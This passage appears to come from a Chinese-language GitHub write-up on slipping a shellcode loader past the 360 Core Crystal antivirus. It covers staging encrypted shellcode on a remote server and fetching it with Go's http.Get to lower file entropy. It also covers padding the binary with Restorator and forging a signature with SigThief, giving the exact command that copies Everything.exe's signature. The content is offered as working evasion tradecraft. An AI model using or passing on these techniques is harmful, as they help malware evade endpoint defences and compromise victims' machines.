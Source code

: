 ![image-20230519220436332](./Bypass 360核晶 上线.assets/image-20230519220436332.png)

可以看到直接就被干掉了，只不过我们不要灰心，需要分析一下：

- 前期测试我们的Shellcode loader 是不会被查杀！
- 在添加加密AES的Shellcode后反而被杀了！

这个时候主要的原因是因为我们程序的熵太高了，所以被干掉了，具体怎么做跳转到`0x03降低信息熵`这块有详细的解决办法哦



## HTTP分离Shellcode

硬编码Shellcode会导致我们的EXE熵比较高，我们可以使用HTTP.GET方法从互联网上获取Shellcode 从而达到降低熵的问题

具体代码如下

```
resp, err := http.Get("http:/xx.xxx.xxx") 
if err != nil {
fmt.Println("Error getting remote connection:", err)
  return
}
defer resp.Body.Close()

body, err := ioutil.ReadAll(resp.Body)
if err != nil {
  fmt.Println("Error reading from remote connection:", err)
  return
}
encryptedShellcodeStr := string(body)
```

![image-20230519221722110](./Bypass 360核晶 上线.assets/image-20230519221722110.png)

这个时候就可以发现已经OK了

![image-20230519225113640](./Bypass 360核晶 上线.assets/image-20230519225113640.png)

# 0x03降低信息熵

信息熵其实就是一个程序的混乱程度，我们可以通过添加详细信息+签名伪造来降低信息熵

## Restorator添加图标等信息

![image-20230519231344151](./Bypass 360核晶 上线.assets/image-20230519231344151.png)

## SigThief签名伪造

虽然 伪造的数字签名是无效的，但是查杀的时候杀软还是会判断程序是否有签名

```
https://github.com/secretsquirrel/SigThief
python sigthief.py -i "C:\Program Files\Everything\Everything.exe" -t main.exe -o 233.exe
```
